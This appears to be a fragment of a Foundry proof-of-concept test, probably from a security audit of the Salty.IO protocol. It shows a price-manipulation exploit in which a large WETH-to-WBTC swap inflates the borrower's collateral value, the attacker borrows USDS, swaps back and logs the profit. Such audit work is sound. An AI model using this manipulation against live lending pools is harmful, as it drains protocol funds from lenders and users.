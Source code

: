 ```// SPDX-License-Identifier: BUSL 1.1
    (amountA,amountB) = pools.getPoolReserves(salt,weth);
    require(amountA == wethPrice);     
    require(amountB == saltPrice);    

    collateralAndLiquidity.depositLiquidityAndIncreaseShare(
        salt,
        wbtc,
        wbtcPrcie, 
        saltPrice / (10 ** 10), 
        0, 
        block.timestamp, 
        false
    );//SALT/WBTC pool

    (amountA,amountB) = pools.getPoolReserves(salt,wbtc);
    require(amountA == wbtcPrcie);     
    require(amountB == saltPrice / (10 ** 10));     
		vm.stopPrank();

    //switch to bob,and add liquidity to wbtc/weth pool to get usds
    vm.startPrank(bob);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(
        wethPrice / (10 ** 14), 
        wbtcPrcie / (10 ** 4) , 
        0, 
        block.timestamp, 
        false
    );//WETH/WBTC pool 

    console.logString("before stake usds value:");
    uint256 maxUsds = collateralAndLiquidity.maxBorrowableUSDS(bob);
    console.logUint(maxUsds);

    console.log("all collateral value:");
    uint256 value = maxUsds * stableConfig.initialCollateralRatioPercent() / 100;
    console.logUint(value);

    (,uint256 amount) = pools.getPoolReserves(wbtc,weth);

    uint256 beforeAmount = amount * 5;
    console.logString("before weth Amount");
    console.logUint(uint(beforeAmount));
    uint256 wbtcAmount = pools.depositSwapWithdraw(weth,wbtc,beforeAmount,0,block.timestamp);

    maxUsds = collateralAndLiquidity.maxBorrowableUSDS(bob);

    console.logString("after stake usds value:");
    console.logUint(maxUsds);
    collateralAndLiquidity.borrowUSDS(maxUsds);
    uint256 afterAmount = pools.depositSwapWithdraw(wbtc,weth,wbtcAmount,0,block.timestamp);

    console.logString("after weth Amount");
    console.logUint(uint(afterAmount));

    //even liquidate collateral can earn
    uint256 earned = maxUsds - value - (beforeAmount - afterAmount) * priceAggregator.getPriceETH() / 10 ** 18;

    console.logString("earned:");
    console.logUint(uint(earned));

    vm.stopPrank();
	}
```